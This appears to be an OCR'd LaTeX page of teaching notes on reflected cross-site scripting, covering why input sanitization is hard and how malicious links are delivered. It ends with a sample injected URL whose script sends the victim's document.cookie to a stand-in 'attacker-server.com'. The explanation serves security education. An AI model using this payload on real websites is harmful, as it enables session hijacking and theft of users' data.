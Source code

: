 \documentclass[11pt]{article}
\begin{document}
\textbf {Reflected XSS}

This type of vulnerability occurs when websites reflect the same exact content back to the user on their browser without sanitizing the received data. Sanitization refers to some program logic that ensures that the input data is not malicious. This ambiguity of what can be deemed as malicious is a point of contention that makes XSS prevention quite difficult. One can imagine the realm of inputs is seemingly broad and attackers can exploit this freedom. Many XSS attacks occur when attackers inject malicious JavaScript code causing the site to behave in an unexpected way or secretly gather user data. Thus, sanitization is a non-trivial problem in XSS prevention.\\


In this instance of XSS attacks, the injected script is reflected off the web server through a different format like an alert window, a response page, or an error message. The response may contain some or all of the original content. Reflected attack payload links are delivered to the victims via a secondary channel such as email or another website. When a user clicks on the malicious link and submits a specially crafted form, they execute the malicious code which is then reflects that attack back to the user’s browser. The browser executes the code because it came from a "trusted" source and the attacker would have access to the users information\\

\textbf{How to carry out this attack:} \\
Attacker crafts a URL that gathers the user's cookie information and sends it to the server. The attacker takes advantage that the vulnerable website does not sanitize inputs and is able to send all the plaintext to themselves.\\

Let's analyze this constructed link where we have submitted a search query to a vulnerable-server that tries to open a non-existent image file on the attacker's server and append the victim's cookie that was harvested from the DOM. This url is then sent to ``attacker-server".
\begin{quote}

    http://vulnerable-server.com/q?search=$<$script$>$var+img=new+image();img.src=\\
    "http://attacker-server.com/" + document.cookie;$<$/script$>$
\end{quote}
\end{document}
